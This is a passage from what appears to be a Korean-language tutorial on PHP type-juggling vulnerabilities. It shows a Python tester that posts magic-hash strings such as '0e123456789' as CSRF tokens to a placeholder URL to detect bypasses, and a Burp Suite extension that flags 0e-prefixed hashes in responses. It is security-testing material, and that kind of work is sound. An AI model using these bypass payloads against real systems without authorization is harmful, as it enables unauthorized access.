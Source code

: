 ```python
                print(f"Potential type juggling vulnerability: {magic_string}")
                return True
        
        return False
    
    def test_token_bypass(self):
        """토큰 검증 우회 테스트"""
        bypass_tokens = ['0e123456789', '0e999999999', '0']
        
        for token in bypass_tokens:
            headers = {'X-CSRF-Token': token}
            response = requests.post(f"{self.target_url}/api/sensitive", 
                                   headers=headers)
            
            if response.status_code == 200:
                print(f"Token bypass successful with: {token}")
                return True
        
        return False

# 사용 예
tester = TypeJugglingTester("https://target.com")
tester.test_authentication_bypass()
tester.test_token_bypass()
```

### 3. Burp Suite 확장

```javascript
// Burp Suite extension for Type Juggling detection
function processHttpMessage(toolFlag, messageIsRequest, messageInfo) {
    if (!messageIsRequest) {
        var response = messageInfo.getResponse();
        var responseString = helpers.bytesToString(response);
        
        // 0e 패턴을 포함한 응답 탐지
        if (responseString.match(/0e[0-9a-f]{30,}/gi)) {
            var issue = {
                url: messageInfo.getUrl(),
                name: "Potential Type Juggling Hash",
                detail: "Response contains hash starting with 0e",
                severity: "High"
            };
            
            callbacks.addScanIssue(issue);
        }
    }
}
```

## 🧪 테스트 시나리오
